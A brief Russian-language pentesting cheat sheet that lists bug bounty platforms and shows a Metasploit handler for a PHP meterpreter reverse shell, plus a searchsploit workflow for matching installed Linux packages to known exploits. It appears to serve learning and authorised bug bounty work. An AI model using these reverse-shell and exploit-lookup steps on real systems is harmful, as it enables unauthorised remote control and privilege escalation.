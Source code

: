 # Info

+ https://hacker101.com/
+ https://bugbounty.ru/
+ https://bugbounty.standoff365.com/
+ https://bugbounty.bi.zone/

## Metasploit framework

Содержит эксплоиты различных уязвимостей.

Позволяет удобно использовать rce, создавая сессии с уязвимым хостом.

Пример создания сессии с загруженным php файлом:

```shell
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST <ваш_IP>
set LPORT 4444
exploit
```

## Searchsploit

Вывод установленных пакетов в linux и их версий

Надо доработать, чтобы постфиксы :amd64 убирал в названии пакетов

```shell
dpkg -l | awk '/^ii/ {print $2, $3}'
```

Скрипт для проверки пакетов в searchsploit

```shell
#!/bin/bash

# Файл с именами приложений
file="apps.txt"

while IFS= read -r app; do
    echo "Searching exploits for: $app"
    searchsploit "$app"
    echo "-------------------------------------"
done < "$file"
```

После того как находим информацию, копируем exploit локально

```shell
searchsploit -m linux/local/15304.txt
```

